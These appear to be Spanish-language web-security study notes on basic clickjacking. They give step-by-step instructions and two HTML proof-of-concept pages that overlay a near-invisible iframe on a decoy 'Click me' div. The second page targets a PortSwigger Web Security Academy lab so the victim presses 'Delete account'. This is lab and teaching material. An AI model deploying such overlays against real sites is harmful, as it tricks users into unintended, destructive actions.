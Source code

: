 ## OTROS EJEMPLOS

### BASIC CLICKJACKING

- podemos jugar con un iframe para cargar la pagina vulnerable
- le agregamos una dimension con **height** y **width**
- jugamos con el opaciti para que no se pea la pagina, mas cerca a 0 sera invisible
- creamos un div
- lo posicionamos encima de un boton de la pagina vulnerable jugando con **top** y **left**
- cambiamos la opacidad a 0
- la victima presionara el div y en realidad esta presionando el boton de la pagina vulnerable

```html
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}

	div {
		position:absolute;
		top:470px;
		left:60px;
		z-index: 1;
	}
</style>

<div>Click me</div>
<iframe src="https://vulnerable.com/"></iframe>
```

pagina vulnerable a clickjacking:

![[Pasted image 20220928162909.png]]

creando una poc para que el usuario presione el boton **Delete account**:

```bash
<style>
	iframe {
		position:relative;
		width: 500px;
		height: 700px;
		opacity: 0.1;
		z-index: 2;
	}

	div {
		position:absolute;
		top:500px;
		left:60px;
		z-index: 1;
	}
</style>

<div>Click me</div>
<iframe src="https://0a2400d203893863c04d9d7e004000ab.web-security-academy.net/my-account"></iframe>
```
